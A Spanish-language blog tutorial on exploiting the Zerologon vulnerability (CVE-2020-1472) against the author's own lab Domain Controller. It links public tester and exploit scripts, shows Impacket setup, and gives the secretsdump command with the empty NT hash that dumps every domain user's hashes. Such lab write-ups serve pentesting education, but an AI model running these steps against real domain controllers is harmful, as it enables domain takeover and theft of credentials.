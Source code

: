 ```yaml
---
layout: single
title: Cómo explotar la vulnerabilidad Zerologon
excerpt: "Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero... ¿realmente es crítica?. Lo analizaremos en detalle en este artículo."
date: 2020-09-16
classes: wide
header:
  teaser: /assets/images/zerologon/zerologon.png
  teaser_home_page: true
categories:
  - Research
  - Utilidades
  - Exploits
  - Vulnerabilidades
tags:
  - Pentesting
  - Herramientas
  - Windows
  - Linux
  - Domain Controller
  - Guías
  - Privilege Escalation
---
```


![](/assets/images/zerologon/zerologon.png)

## ¿Es realmente crítico Zerologon?

La respuesta es un **si** rotundo. No creo que haga falta a estas alturas comentar qué es Zerologon... ya existen montón de artículos a disposición detallando de forma técnica y ejecutiva en qué consiste la vulnerabilidad.

Centrémonos en la explotación, ¿cómo se explota zerologon?, vamos a ello. En mi caso comenzaré haciendo uso de la siguiente utilidad:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Este recurso, nos permitirá a través del script `zerologon_tester.py`, saber si el DC en cuestión es vulnerable ante el ataque. Yo ya dispongo de un DC virtualizado contra el que lanzar el tester, en caso de no contar con uno, te recomiendo hacer uso de la utilidad '**AD-AutomationLab**', una herramienta en PowerShell que desarrollé para el despliegue automatizado de un Domain Controller entre otras cosas (también es capaz de configurar vulnerabilidades reconocidas sobre el servidor).

Por aquí os dejo el enlace para aquellos/as que lo quieran usar:

* [https://github.com/flippermen/AD-AutomationLab](https://github.com/flippermen/AD-AutomationLab)


## ¿Cómo se explota la vulnerabilidad Zerologon?

Una vez tengamos ya el Domain Controller operando, podremos empezar. La dirección IP de mi DC en este caso es la `192.168.101.130`, y la dirección IP de mi equipo atacante la `192.168.101.128`.

Partiendo de este punto, estos son los resultados obtenidos al lanzar el tester sobre el DC:

<p align="center">
<img src="/assets/images/zerologon/1.png">
</p>

Toda la información referente al nombre de equipo, dominio y demás puede obtenerse rápidamente desde CrackMapExec con un simple escaneo por Samba:

<p align="center">
<img src="/assets/images/zerologon/2.png">
</p>

En base a los resultados de la primera foto, vemos que el DC es vulnerable. Lo único que nos queda por tanto es explotar la vulnerabilidad.

En esta ocasión, estaré usando el siguiente recurso de la plataforma de GitHub:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Esta utilidad cuenta con un script de nombre `cve-2020-1472-exploit.py`, el cual como información nos solicita el nombre del equipo y la dirección IP de la máquina víctima.

Antes de explotar la vulnerabilidad, para evitar problemas con Impacket, recomiendo tirar de `virtualenv` para tras su instalación ejecutar posteriormente la herramienta. Sería seguir básicamente los siguientes pasos:

```bash
┌─[root@parrot]─[/home/flippermen/Desktop]
└──╼ #virtualenv zerologon
created virtual environment CPython3.8.2.final.0-64 in 178ms
  creator CPython3Posix(dest=/home/flippermen/Desktop/zerologon, clear=False, global=False)
  seeder FromAppData(download=False, CacheControl=latest, appdirs=latest, certifi=latest, chardet=latest, colorama=latest, contextlib2=latest, distlib=latest, distro=latest, html5lib=latest, idna=latest, ipaddr=latest, lockfile=latest, msgpack=latest, packaging=latest, pep517=latest, pip=latest, pkg_resources=latest, progress=latest, pyparsing=latest, pytoml=latest, requests=latest, retrying=latest, setuptools=latest, six=latest, urllib3=latest, webencodings=latest, wheel=latest, via=copy, app_data_dir=/root/.local/share/virtualenv/seed-app-data/v1.0.1.debian)
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator,XonshActivator
┌─[root@parrot]─[/home/flippermen/Desktop]
└──╼ #source zerologon/bin/activate
(zerologon) ┌─[root@parrot]─[/home/flippermen/Desktop]
└──╼ #cd /opt/
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket
Clonando en 'impacket'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (26/26), done.
remote: Total 18517 (delta 19), reused 26 (delta 13), pack-reused 18478
Recibiendo objetos: 100% (18517/18517), 6.17 MiB | 5.96 MiB/s, listo.
Resolviendo deltas: 100% (14103/14103), listo.
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #cd impacket/
(zerologon) ┌─[root@parrot]─[/opt/impacket]
└──╼ #python3 setup.py install

...

```

Una vez hecho, la ejecución del exploit debe devolver un output como este en caso de éxito:

<p align="center">
<img src="/assets/images/zerologon/3.png">
</p>

Si esto es así, ya todo lo demás está hecho. Lo único que tendríamos que hacer, tal y como nos indica el README del siguiente recurso:

* [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

Sería ejecutar la siguiente sentencia:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

Para mi caso quedaría de la siguiente forma:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 's4vicorp/DC-Company$@192.168.101.130'
```

Obteniendo los siguientes resultados tras su ejecución:

<p align="center">
<img src="/assets/images/zerologon/4.png">
</p>

Conseguimos listar los hashes de todos los usuarios existentes a nivel de dominio, incluido aquellos que sean administradores del dominio. Básicamente el mismo efecto que obtendríamos si desde CrackMapExec hubiéramos hecho uso de la acción `--ntds vss`, pero claro... en ese caso habríamos necesitado credenciales válidas, lo bueno del Zerologon es que no hace falta nada de eso :)
